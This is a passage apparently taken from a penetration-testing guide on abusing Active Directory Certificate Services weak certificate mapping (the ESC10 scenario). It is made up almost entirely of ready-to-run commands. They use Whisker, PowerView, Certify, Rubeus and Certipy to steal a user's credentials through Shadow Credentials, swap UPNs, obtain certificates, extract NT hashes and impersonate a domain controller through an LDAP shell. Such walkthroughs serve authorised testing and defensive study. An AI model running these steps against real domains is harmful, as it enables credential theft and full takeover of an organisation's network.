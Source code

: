     First, the user2's credentials are needed. It can be retrieved via a Shadow Credentials attack, for example. Here just the `msDs-KeyCredentialLink` modification part with Whisker
    ```bash
    Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
    ```
    Then, the `userPrincipalName` of user2 is changed to user3 with PowerView.
    ```bash
    Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
    ```
    A certificate permitting client authentication can be requested in a user2 session.
    ```bash
    Certify.exe request /ca:'domain\ca' /template:"User"
    ```
    The user2's UPN is changed back to something else.
    ```bash
    Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
    ```
    Now, authenticating with the obtained certificate will provide the user3's NT hash during UnPac the hash. This action can be realised with Rubeus. The domain must be specified since it is not present in the certificate.
    ```bash
    Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /show
    ```
#### Case 2
- `CertificateMappingMethods` is set to `0x4`, meaning no strong mapping is performed and only the UPN will be checked
- A template that specifiy client authentication is enabled (any template, like the built-in User template)
- `GenericWrite` right against any account A to compromise any account B without a UPN already set (machine accounts or buit-in Administrator account for example)
=== "UNIX-like"
    From UNIX-like systems, Certipy (Python) can be used to enumerate for, and conduct, the ESC10 scenario.

    In this scenario, user1 has `GenericWrite` against user2 and want to compromise the domain controller DC$@domain.local.

    First, the user2's hash is needed. It can be retrieved via a Shadow Credentials attack, for example.
    ```bash
    certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
    ```
    Then, the `userPrincipalName` of user2 is changed to `DC$@domain.local`.
    ```bash
    certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "DC\$@$DOMAIN"
    ```
    A certificate permitting client authentication can be requested as user2.
    ```bash
    certipy req -username "user2@$DOMAIN" -hashes "$NT_HASH" -ca 'ca_name' -template 'User'
    ```
    The user2's UPN is changed back to something else.
    ```bash
    certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
    ```
    Now, authentication with the obtained certificate will be performed through Schannel. The `-ldap-shell` option can be used to execute some LDAP requests and, for example, realised an RBCD to fully compromised the domain controller.
    ```bash
    certipy auth -pfx dc.pfx -dc-ip "$DC_IP" -ldap-shell
    ```
=== "Windows"
    From Windows systems, the Certify (C#) tool can be used.